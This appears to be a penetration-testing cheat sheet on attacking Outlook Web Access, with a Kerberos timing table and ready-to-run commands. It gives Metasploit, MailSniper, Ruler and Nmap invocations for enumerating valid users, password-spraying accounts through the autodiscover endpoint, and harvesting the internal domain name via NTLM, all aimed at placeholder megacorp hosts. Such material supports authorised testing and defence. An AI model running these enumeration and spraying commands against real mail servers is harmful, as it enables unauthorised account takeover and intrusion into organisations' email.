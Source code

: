 ```yaml
---
description: Outlook Web Access
---
```


# OWA




## Enumerate Users

* [https://www.triaxiomsecurity.com/2019/03/15/vulnerability-walkthrough-timing-based-username-enumeration/](https://www.triaxiomsecurity.com/2019/03/15/vulnerability-walkthrough-timing-based-username-enumeration/)
* [https://www.intruder.io/blog/user-enumeration-in-microsoft-products-an-incident-waiting-to-happen](https://www.intruder.io/blog/user-enumeration-in-microsoft-products-an-incident-waiting-to-happen)

| Authentication Request                   | Kerberos Process                                     | Response Time |
|------------------------------------------|------------------------------------------------------|---------------|
| Non-existing realm                       | KDC searches for realm                               | 2-3 seconds   |
| Realm exists but username does not exist | Pre-authentication ticket created to verify username | 5-60 seconds  |
| Realm and username exists                | Pre-authentication ticket created to verify password | < 2 seconds   |

> "Responses in different environments may have different response times but the pattern in the timing response behavior still exist." ([ref](http://h.foofus.net/?p=784))



### MSF

```
msf > use auxiliary/scanner/http/owa_login
msf > set RHOST mx.megacorp.local
msf > set USER_FILE owa-users.txt
msf > set PASSWORD dummyPassword
msf > set THREADS 15
msf > run
```



### MailSniper

```
PS > Invoke-UsernameHarvestOWA -ExchHostname mx.megacorp.com -Domain MEGACORP -UserList .\owa-users.txt -Threads 25 -OutFile owa-valid-users.txt
```




## Password Spray



### Ruler

* [https://github.com/sensepost/ruler/wiki/Brute-Force#brute-force-for-credentials](https://github.com/sensepost/ruler/wiki/Brute-Force#brute-force-for-credentials)

Autodiscover URL implicit:

```
$ ./ruler -k -d megacorp.com brute --users users.txt --passwords passwords.txt --delay 35 --attempts 3 --verbose | tee -a ruler-blood.out
```

Autodiscover URL explicit:

```
$ ./ruler -k --nocache --url https://autodiscover.megacorp.com/autodiscover/autodiscover.xml -d megacorp.com brute --users users.txt --passwords passwords.txt --delay 35 --attempts 3 --verbose | tee -a ruler-all.out
```

Notes:

* In users.txt there's only "username" on a line, not "DOMAIN\username".
* Errors like `ERROR: 04:27:43 brute.go:193: An error occured in connection - Get https://autodiscover.megacorp.com/autodiscover/autodiscover.xml: Get https://autodiscover.megacorp.com/autodiscover/autodiscover.xml: net/http: request canceled` do **not** affect the current password probe.




## Parse NTLM

* [https://github.com/nyxgeek/ntlmscan](https://github.com/nyxgeek/ntlmscan)
* [https://gist.github.com/aseering/829a2270b72345a1dc42](https://gist.github.com/aseering/829a2270b72345a1dc42)



### Nmap

```
$ sudo nmap -sV --script http-ntlm-info --script-args http-ntlm-info.root=/ews/ -p443 mx.megacorp.com
```



### MSF

```
msf > use auxiliary/scanner/http/owa_login
msf > set AUTH_TIME false
msf > set RHOST mx.megacorp.local
msf > set USERNAME dummyUser
msf > set PASSWORD dummyPassword
msf > run
```



### MailSniper

```
PS > Invoke-DomainHarvestOWA -ExchHostname mx.megacorp.com
```



### get_ad_domain.zip

```
$ python get_ad_domain.zip -m owa mx.megacorp.com
```

